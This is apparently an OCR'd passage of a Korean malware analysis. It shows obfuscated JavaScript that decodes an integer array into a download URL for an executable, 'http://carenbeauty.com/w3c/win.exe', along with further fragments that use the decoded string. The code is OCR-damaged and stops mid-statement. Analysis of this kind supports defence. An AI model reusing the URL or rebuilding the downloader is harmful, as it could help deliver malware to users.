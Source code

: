 ● 1111 배열에서 159만큼 빼고 문자열로 변환시킨 뒤 x2에 저장하는 것을 확인

● 위에서 확인한 `http://carenbeauty.com/w3c/win.exe`와 동일함

```python
function encode() {
        var omgllll(); 
        var x1new Array(); 
        var x2'';
        for(var i0; i < omg.length; i++) {
            if(omg[i] != 159) {
                x1[i] = omg[i] - 159;
                x2+= String.fromCharCode(x1[i]);
}
}
        return x2;
}
```

● 나머지 코드 확인

```python
var N = 88;
var X = "3C373B2D353D362C762F2A312C3D782A3D3B3039363F3D702C71";
var nburl = encode();
var nbnburl = "\"" + nburl + "\"";  
var t = 
```